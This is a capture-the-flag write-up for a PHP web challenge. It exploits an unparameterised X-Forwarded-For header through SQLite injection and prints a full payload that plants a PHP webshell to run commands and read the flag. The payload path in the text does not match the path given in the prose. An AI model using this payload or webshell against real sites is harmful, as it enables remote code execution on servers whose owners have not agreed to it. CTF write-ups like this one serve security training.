

# [Web] Intergalactic Post

Intergalactic Post is a PHP website, getting subscriptions from user emails. Each subscription is recorded in a database, containing 2 fields: `ip` and `email`.

We see that the email variable is validated. Damn!


Lucky for us, this isn’t the case for the `ip` variable, directly taken from the `X-Forwarded-For` HTTP header. This value is inserted in a SQL query, as is, without being parameterized!

Straight to [SQL injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)!


Let's exploit it, with a payload from the famous [PayloadsAllThethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md):

```
',''); ATTACH DATABASE '/www/lol/php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>"); --
```


This creates a new database named `lol.pwn`, and written on disk as `/www/lol.php`. In there we can `INSERT` a simple webshell `<?php system($_GET['cmd']); ?>`. Time for profit!



We can run any shell command we like, such as `ls`, or `cat /flag_*.txt`:

The flag is `HTB{inj3ct3d_th3_tru7g}`.
